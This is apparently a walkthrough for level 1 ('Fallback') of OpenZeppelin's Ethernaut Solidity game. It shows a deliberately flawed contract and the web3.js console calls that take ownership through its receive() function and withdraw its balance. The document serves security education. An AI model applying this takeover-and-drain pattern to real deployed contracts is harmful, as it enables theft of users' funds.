 # Level 1: Fallback

This is the level 1 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites

- Sending transactions using [web3.js](https://ethereum.stackexchange.com/questions/53094/sending-ether-via-contract-instance) to a contract and to a payable function
- [Conversion between units ether & wei](https://web3js.readthedocs.io/en/v1.5.2/web3-utils.html#towei)
- Solidity contract [fallback](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

and `contract` methods & `web3.js` functions injected into console.

We, the `player` address, have to somehow become `owner` of the contract & withdraw all amount from contract.

Key parts to notice are `contribute` function and `receive` fallback function of contract.

From the constructor, it can be seen that `owner`'s contribution is 1000 eth. One way to become `owner` is to send more than current `owner`'s contributed eth to `contribute` function to be owner. Let's check `owner`'s contributed eth using console:

```javascript
ownerAddr = await contract.owner();
await contract.contributions('0x9CB391dbcD447E645D6Cb55dE6ca23164130D008').then(v => v.toString())

// Output '1000000000000000000000'
```
But, that'd be too much eth! We have nowhere near it. 

Take a look at `receive` fallback function though. It also has code to change ownerships. According to what code is there, we can claim ownership if:

- Contract has a non-zero contribution from us (i.e. `player`).
- Then, we send the contract a non-zero eth amount.

`player` address has zero contribution to contract currently, so let's satisfy first condition by sending a **less than 0.001** eth (required acc. to code):

```javascript
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

Now we have a non-zero contribution that you can verify by:

```javascript
await contract.getContribution().then(v => v.toString())
```

And now send any non-zero amount of ether to contract:
```javascript
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
```

Boom! We claimed ownership of the contract!
You can verify that `owner` is same address as `player` by:

```javascript
await contract.owner()
// Output: Same as player address
```

And for the final blow, withdraw all of contract's balance:

```javascript
await contract.withdraw()
```

Done.


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

